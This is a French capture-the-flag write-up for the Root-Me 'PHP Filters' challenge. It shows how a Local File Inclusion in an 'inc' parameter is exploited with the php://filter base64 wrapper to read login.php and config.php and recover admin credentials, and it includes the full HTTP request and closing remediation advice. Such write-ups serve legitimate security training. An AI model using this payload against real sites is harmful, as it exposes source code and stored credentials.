



## Challenge 2 – PHP Filters

- **Nom :** PHP Filters
- **URL :** https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Filters

### Étapes de découverte

1. Ouverture du challenge Root-Me
2. Récupération de l'appel dans burpsuite pour acceder à la page login
2. Présence d’un paramètre `inc` qui semble implémenter un `include` PHP.
3. Test de l’inclusion locale en appelant `?inc=test.php` et apparition de warnings PHP `include(test.php): failed to open stream...`, ce qui confirme une vulnérabilité de **Local File Inclusion (LFI)**.
   
4. Test avec `?inc=login.php` et la page se charge normalement mais le code source de `login.php` n’est pas affiché, il est interprété côté serveur.
5. Recherche d’un moyen de lire le **code source** sans l’exécuter on utilisation alors le wrapper `php://filter` pour récupérer le fichier encodé en Base64 : `?inc=php://filter/read=convert.base64-encode/resource=login.php`, puis décodage du bloc Base64 pour obtenir le contenu de `login.php`.
   
6. Analyse de `login.php`, on voit que le script inclut un fichier `config.php` qui contient très probablement les identifiants d’authentification.
7. Utilisation du même wrapper pour lire le contenu de `config.php` : `?inc=php://filter/read=convert.base64-encode/resource=config.php`, décodage Base64 et récupération de `$username` / `$password`, puis connexion à l’interface d’admin du FileManager pour valider le challenge.

### Payloads utilisés et screenshot

```text
GET /web-serveur/ch12/?inc=php://filter/read=convert.base64-encode/resource=config.php HTTP/1.1
Host: challenge01.root-me.org
Accept-Language: fr-FR,fr;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Et on récupère donc les information pour la connexion :


### Les recommandations

Eviter de transmettre toute donnée fournie pas l'utilisateur à une API.
Si c'est impossible, utiliser une liste blanche de fichier autorisés qui peuvent être inclus par la page, et ensuite utiliser un identifiant pour acceder au fichier sélectionné.
Toute requête contenant un id invalide doit etre rejetée.
https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion